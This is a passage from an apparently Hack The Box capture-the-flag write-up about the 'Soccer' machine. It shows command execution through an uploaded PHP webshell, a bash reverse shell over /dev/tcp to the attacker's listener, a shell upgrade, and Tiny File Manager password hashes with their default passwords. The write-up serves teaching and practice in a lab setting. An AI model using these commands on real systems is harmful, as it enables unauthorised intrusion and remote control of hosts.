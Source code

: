     
    oxdf@hacky$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll start `nc` listening on 443 on my host, and trigger a reverse shell by
sending a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    
    
    oxdf@hacky$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"'
    

It hangs, but there’s a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.194 55140
    bash: cannot set terminal process group (1048): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@soccer:~/html/tiny/uploads$ 
    

I’ll upgrade my shell using the `script` / `stty`
[trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q).

## Shell as player

### Enumeration

#### Web Roots

The files in `/var/www/html` match what I observed via the file manager:

    
    
    www-data@soccer:~/html$ ls 
    football.jpg  ground2.jpg  ground4.jpg  tiny
    ground1.jpg   ground3.jpg  index.html
    

There’s no database connection. The only credentials in the files are the
users created for the Tiny File Manager:

    
    
    // Login user name and password
    // Users: array('Username' => 'Password', 'Username2' => 'Password2', ...)
    // Generate secure password hash - https://tinyfilemanager.github.io/docs/pwd.html
    $auth_users = array(
        'admin' => '$2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW', //admin@123
        'user' => '$2y$10$Fg6Dz8oH9fPoZ2jJan5tZuv6Z4Kp7avtQ9bDfrdRntXtPeiMAZyGO' //12345                                                      
    );
    

#### Other Home Directories

There’s one home directory in `/home`, `player`:
